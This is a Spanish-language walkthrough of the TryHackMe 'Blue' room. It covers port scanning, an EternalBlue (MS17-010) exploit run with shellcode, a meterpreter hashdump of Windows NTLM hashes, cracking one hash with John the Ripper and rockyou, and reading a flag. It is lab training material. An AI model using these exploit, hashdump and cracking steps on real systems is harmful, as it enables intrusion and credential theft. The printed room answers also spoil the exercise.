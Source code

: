 ```yaml
---
title: "tryhackme: blue"
share: false
excerpt: "El mejor metodo de aprendizaje es practicando"
share: false
header:
  teaser:  /assets/images/blue/logo.jpeg
  teaser_home_page: true
categories:
  - tryhackme
tags:
  - Ethernal blue - ms08-067
  - Windows
---
```


### Iniciamos conprobando que la maquina este encendida 

```bash
❯ ping -c 1 10.10.31.159
PING 10.10.31.159 (10.10.31.159) 56(84) bytes of data.
64 bytes from 10.10.31.159: icmp_seq=1 ttl=127 time=187 ms

--- 10.10.31.159 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 186.669/186.669/186.669/0.000 ms
❯ settarget 10.10.31.159
```

Comprobamos que _OS_ corre la maquina

```bash
❯ wichSystem.py 10.10.31.159

10.10.31.159 (ttl -> 127): Windows
```

### ahora si a realizar un primer escaneo de puertos

```bash
sudo nmap --open --min-rate 5000 -p- -sS -Pn -n 10.10.31.159 -oG allPorts
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-11 07:47 -05
Stats: 0:00:43 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 54.84% done; ETC: 07:48 (0:00:36 remaining)
Stats: 0:01:25 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 07:48 (0:00:00 remaining)
Nmap scan report for 10.10.31.159
Host is up (1.2s latency).
Not shown: 52538 filtered tcp ports (no-response), 12992 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49153/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 85.45 seconds
```

> How many ports are open with a port number under 1000?
> 3

vemos el resultado del escaneo anterior con la utilidad _extractPors_ y esta nos copia los puertos en la clipboard

```bash
> extractPorts allPorts
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.31.159
   5   │     [*] Open ports: 135,139,445,3389,49153
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
```
Con los puertos copiados en la clipboard procedemos a realizar un escaneo con _script_ basicos de vulnerabildades de _nmap_

> What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
> ms17-010

ahora ya sabemos que es vulnerable a _ethernalblue_, buscamos un exploit manual en _google_

![exploit manual](/assets/images/blue/manual.png)

procedemos a instalar la utilidad

- comandos 

```bash
> pip install -r requirements.txt
```

el _script_ tiene una utilidad que nos confirma que la maquina es vulnerable a _ethernalblue_

```bas
❯ python3 eternal_checker.py 10.10.125.134
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done
```

Como vemos, la maquina no esta parchada contra esta vulnerabilidad, procedemos a explotarla
nos novemos al directorio _shellcode_ como indicaa la "guia" del _scritp_

![configuracion scrit](/assets/images/blue/shell_code.png)

- ejecutamos con la configuración anterior
- toca ejecutar el comando varias veces puesto que, se bloquea la maquina y/o problemas de _eternalblue_ (algo común)

```bash
❯ python eternalblue_exploit7.py 10.10.125.134 shellcode/sc_all.bin
shellcode size: 2205
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

en otra consola ponemos nuestra ejecutamos el comando *listener_prep.sh*

# hashdump

```bash
meterpreter > run post/windows/gather/hashdump

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 55bd17830e678f18a3110daf2c17d4c7...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

Jon:"Nah boi, I ain't sharing nutting with you"

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

ahora vamos a intentar crackear cada contraseña con el diccionario *rockyou.txt*

```bash
❯ john /home/blanco/Desktop/thm/blue/content/users.txt --wordlist=/home/blanco/Desktop/thm/rockyou.txt --format=NT

alqfna22	(jon)
```

ahora a buscar la flag, para ello debemos regresar a la raiz del sistema y leer la primer bandera

```bash
meterpreter > pwd
C:\Windows
meterpreter > cd ..
meterpreter > pwd
C:\
meterpreter > ls
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40777/rwxrwxrwx   0      dir   2009-07-13 22:18:56 -0500  $Recycle.Bin
40777/rwxrwxrwx   0      dir   2009-07-14 00:08:56 -0500  Documents and Settings
40777/rwxrwxrwx   0      dir   2009-07-13 22:20:08 -0500  PerfLogs
40555/r-xr-xr-x   4096   dir   2009-07-13 22:20:08 -0500  Program Files
40555/r-xr-xr-x   4096   dir   2009-07-13 22:20:08 -0500  Program Files (x86)
40777/rwxrwxrwx   4096   dir   2009-07-13 22:20:08 -0500  ProgramData
40777/rwxrwxrwx   0      dir   2018-12-12 22:13:22 -0500  Recovery
40777/rwxrwxrwx   4096   dir   2018-12-12 18:01:17 -0500  System Volume Information
40555/r-xr-xr-x   4096   dir   2009-07-13 22:20:08 -0500  Users
40777/rwxrwxrwx   16384  dir   2009-07-13 22:20:08 -0500  Windows
100666/rw-rw-rw-  24     fil   2018-12-12 22:47:39 -0500  flag1.txt
0000/---------    0      fif   1969-12-31 19:00:00 -0500  hiberfil.sys
0000/---------    0      fif   1969-12-31 19:00:00 -0500  pagefile.sys

meterpreter > cat flag1.txt
xxxx{xxcxsx_txe_mxcxixx}
```

para encontrar la 2da flag y no hacerlo manualmente usamos el comando

> dir flag /s /p
